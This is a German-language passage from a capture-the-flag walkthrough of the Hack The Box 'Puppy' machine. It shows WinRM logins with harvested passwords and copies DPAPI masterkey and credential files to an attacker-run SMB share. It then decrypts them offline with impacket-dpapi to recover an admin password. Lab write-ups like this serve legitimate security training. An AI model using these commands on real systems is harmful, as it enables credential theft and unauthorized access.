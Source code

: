## Third Privilege Escalation: Access as steph.cooper

```
nxc winrm xx.xx.xx.xx -u 'steph.cooper' -p 'ChefSteph2025!' -d PUPPY.HTB
```

```hlt:1
evil-winrm -i xx.xx.xx.xx -u 'steph.cooper' -p 'ChefSteph2025!'
```

## DPAPI Credential Harvesting

```hlt:1,2
mkdir -p ./share
impacket-smbserver share ./share -smb2support
```

startet **einen eigenen SMB-Server** mit Python und Impacket, um Dateien über das SMB-Protokoll (wie bei Windows-Freigaben) bereitzustellen – z. B. für **Payloads, DLLs, EXEs oder Tools**, die auf ein Zielsystem übertragen werden sollen.

```hlt:1,3
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\xx.xx.xx.xx\share\masterkey_blob

copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\xx.xx.xx.xx\share\credential_blob
```

Das ist eine **DPAPI Masterkey-Datei**, die für die Entschlüsselung von geschützten Daten (z. B. gespeicherte Browserpasswörter, WLAN-Schlüssel, etc.) erforderlich ist.

Dieser Befehl ist ein weiterer Schritt in einem **Credential-Dumping-Angriff**, diesmal auf eine andere Art von sensibler Datei: eine **Windows Credentials-Datei**, die potenziell **gespeicherte Zugangsdaten** (z. B. für Netzlaufwerke, RDP-Verbindungen, Browser etc.) enthalten kann.


## Offline DPAPI Credential Decryption

```hlt:1
impacket-dpapi masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
```

entschlüsselt mit dem Impacket-Tool **`dpapi`** einen **DPAPI Masterkey** (Data Protection API) aus einem Blob, mit dem Passwort und der SID des Benutzers.

```hlt:1
impacket-dpapi credential -f credential_blob -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

entschlüsselt mit dem Impacket-Tool **`dpapi credential`** einen DPAPI-geschützten **Credential-Blob** (z. B. gespeicherte Zugangsdaten), indem es einen zuvor gewonnenen **Masterkey** oder einen Schlüssel verwendet.

**==Credentials: steph.cooper_adm : FivethChipOnItsWay2025!==**
